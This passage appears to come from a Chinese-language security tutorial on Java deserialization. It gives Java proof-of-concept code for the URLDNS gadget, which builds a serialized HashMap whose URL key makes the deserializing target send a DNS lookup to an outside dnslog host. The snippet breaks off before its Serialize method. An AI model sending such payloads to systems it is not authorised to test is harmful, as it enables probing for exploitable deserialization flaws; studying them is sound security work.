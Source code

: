 [![](assets/1700442779-8a4fc67f3d746aa9cedfbdc212d5df66.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231117125127-f76810d4-8504-1.png)

[![](assets/1700442779-a9491b712368d615d52681efae4f21d5.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231117125134-fbccebc2-8504-1.png)

然后进行反序列化

```plain
package mytest;

import java.io.FileOutputStream;
import java.io.ObjectOutputStream;
import java.lang.reflect.Field;
import java.net.MalformedURLException;
import java.net.URL;
import java.util.HashMap;

public class DnsTest {
    public static void main(String[] args) throws Exception {
        HashMap<URL,Integer> hashMap=new HashMap<URL, Integer>();
        URL  url=new URL("http://c40tqs.dnslog.cn");
        url.hashCode();
        Class c=URL.class;
        Field fieldHascode=c.getDeclaredField("hashCode");
        fieldHascode.setAccessible(true);
        fieldHascode.set(url,233);
        hashMap.put(url,22);
        Serialize(hashMap);
    }
```
